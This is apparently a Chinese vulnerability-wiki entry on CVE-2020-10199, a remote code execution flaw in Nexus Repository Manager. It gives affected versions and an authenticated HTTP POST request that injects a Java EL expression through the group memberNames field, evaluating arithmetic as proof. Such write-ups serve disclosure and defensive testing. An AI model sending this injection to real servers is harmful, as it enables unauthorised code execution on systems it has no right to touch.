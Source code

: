 （CVE-2020-10199）Nexus Repository Manager 远程代码执行漏洞
===========================================================

一、漏洞简介
------------

该漏洞允许拥有Nexus Repository Manager 上任何类型帐户的攻击者通过向Nexus
Repository Manager 发出恶意 JavaEL 表达式来执行任意代码。

二、漏洞影响
------------

Nexus Repository Manager 3.x OSS / Pro \<= 3.21.1

三、复现过程
------------

登录后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

    POST /service/rest/beta/repositories/go/group HTTP/1.1
    Host: www.0-sec.org:8081
    Content-Length: 203
    X-Requested-With: XMLHttpRequest
    X-Nexus-UI: true
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
    NX-ANTI-CSRF-TOKEN: 0.7886248393834028
    Content-Type: application/json
    Accept: */*
    Origin: http://127.0.0.1:8081
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: cors
    Referer: http://127.0.0.1:8081/
    Accept-Encoding: gzip, deflate, br
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: NX-ANTI-CSRF-TOKEN=0.7886248393834028; NXSESSIONID=cedf848f-d881-4b58-ac24-9e9c3ece40bc
    Connection: close
     
    {
      "name": "internal",
      "online": true,
      "storage": {
        "blobStoreName": "default",
        "strictContentTypeValidation": true
      },
      "group": {
        "memberNames": ["$\\A{233*233*233}"]
      }
    }

### （1）尝试执行233*233*233，成功返回结果

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10199)NexusRepositoryManager远程代码执行漏洞/media/rId25.png)
